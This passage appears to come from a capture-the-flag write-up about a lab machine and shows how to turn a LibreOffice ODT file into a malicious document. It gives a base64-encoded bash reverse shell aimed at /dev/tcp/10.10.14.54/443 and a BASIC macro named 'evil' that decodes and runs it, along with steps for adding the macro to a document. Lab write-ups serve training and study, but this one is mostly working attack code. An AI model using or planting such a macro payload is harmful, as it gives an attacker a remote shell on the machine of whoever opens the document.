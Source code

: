 #### Weaponizing odt file using libreoffice macro's

So using we could create a macro in an odt file using libreoffice if you don't have it already you can install it with.
```
sudo apt-get update
sudo apt-get install libreoffice
```

For the payload of my macro i'm gonna going to use a Base 64 encoded reverse shell in bash.
```
echo -n '/bin/bash -l > /dev/tcp/10.10.14.54/443 0<&1 2>&1' | base64
```
Which results in the following base64 encoded string 
```
L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuNTQvNDQzIDA8JjEgMj4mMQ==
```

Then place that string in the following macro 
```
REM  *****  BASIC  *****
Sub evil

    Shell("bash -c 'echo L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuNTQvNDQzIDA8JjEgMj4mMQ== | base64 -d | /bin/bash'")
   
End Sub
```

Now we have our macro create a writer document in libreoffice and add our macro. The macro's can be found in the **Tools>Macros>Organize Macros>Basic...** menu

![Creating macro](/assets/img/Gofer/Gofer_06.png)
